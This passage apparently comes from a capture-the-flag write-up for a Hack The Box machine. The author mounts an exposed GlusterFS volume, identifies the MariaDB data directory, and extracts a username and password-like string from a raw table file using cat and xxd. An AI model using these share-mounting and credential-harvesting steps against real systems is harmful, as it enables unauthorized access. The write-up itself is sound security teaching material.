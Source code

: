 

    oxdf@hacky$ sudo mount -t glusterfs 10.10.11.131:/vol2 /mnt
    oxdf@hacky$ sudo ls /mnt/
    aria_log.00000001  aria_log_control  debian-10.3.flag  ib_buffer_pool  ibdata1  ib_logfile0  ib_logfile1  ibtmp1  multi-master.info  mysql  mysql_upgrade_info  performance_schema  squid  tc.log



#### Enumeration

Some Googling of the file names in that directly suggest that this is
the `/var/lib/mysql` directory, which is where MariaDB (MySQL) stores
it's data. This directory actually has everything I need to recreate the
database locally, and I'll show how to do that in [Beyond
Root](#recreate-mysql-db).

What immediately jumps out as interesting is the `squid` directory:



    oxdf@hacky$ sudo ls -l /mnt/squid
    total 99
    -rw-rw---- 1 avahi-autoipd ssl-cert    67 Oct 25 08:43 db.opt
    -rw-rw---- 1 avahi-autoipd ssl-cert  1775 Oct 25 08:44 passwd.frm
    -rw-rw---- 1 avahi-autoipd ssl-cert 98304 Oct 25 08:44 passwd.ibd



The `passwd.ibd` file has what looks like a username amd a name:



    oxdf@hacky$ 
    oxdf@hacky$ sudo cat /mnt/squid/passwd.ibd
           @!&&     GxNGxNwiiwm%E2infimum
    lance.friedmano>WJ5-jD<5^m3Lance Friedmanpcm%



If "Lance Friedman" is the name, and "lance.friedman" is the username,
the string in the middle is "o\>WJ5-jD\<5\^m3", and there's another
string, "infimum". It's even more clear in `xxd` (with `grep -vF` to
remove the lines of completely unprintable characters):



    oxdf@hacky$ sudo xxd /mnt/squid/passwd.ibd | grep -vF "................"
    00000030: 0006 0000 0040 0000 0021 0000 0004 0000  .....@...!......
    00000080: ffff ffff 0000 0000 0001 0000 0002 0026  ...............&
    00000090: 0000 0002 0026 0000 0000 0000 0000 ffff  .....&..........
    00004000: 47d2 78df 0000 0001 0000 0000 0000 0000  G.x.............
    00004010: 0000 0000 0018 ca4e 0005 0000 0000 0000  .......N........
    00007ff0: 0000 0000 0000 0000 47d2 78df 0018 ca4e  ........G.x....N
    00008000: 771e baac 0000 0002 0000 0000 0000 0000  w...............
    00008070: 69d2 0000 0003 ffff ffff ffff ffff ffff  i...............
    00008130: 69d2 ffff ffff ffff ffff ffff ffff ffff  i...............
    0000bff0: 0000 0000 0000 0000 771e baac 0018 d2d7  ........w.......
    0000c000: af6d 0625 0000 0003 ffff ffff ffff ffff  .m.%............
    0000c010: 0000 0000 0018 e3cd 45bf 0000 0000 0000  ........E.......
    0000c050: 0002 00f2 0000 0005 0000 0002 0032 0100  .............2..
    0000c060: 0200 1f69 6e66 696d 756d 0002 000b 0000  ...infimum......
    0000c070: 7375 7072 656d 756d 000e 0d0e 0000 0010  supremum........
    0000c080: ffee 6c61 6e63 652e 6672 6965 646d 616e  ..lance.friedman
    0000c090: 0000 0000 0000 8000 0000 0000 006f 3e57  .............o>W
    0000c0a0: 4a35 2d6a 443c 355e 6d33 814c 616e 6365  J5-jD<5^m3.Lance
    0000c0b0: 2046 7269 6564 6d61 6e00 0000 0000 0000   Friedman.......
    0000fff0: 0000 0000 0070 0063 af6d 0625 0018 e3cd  .....p.c.m.%....
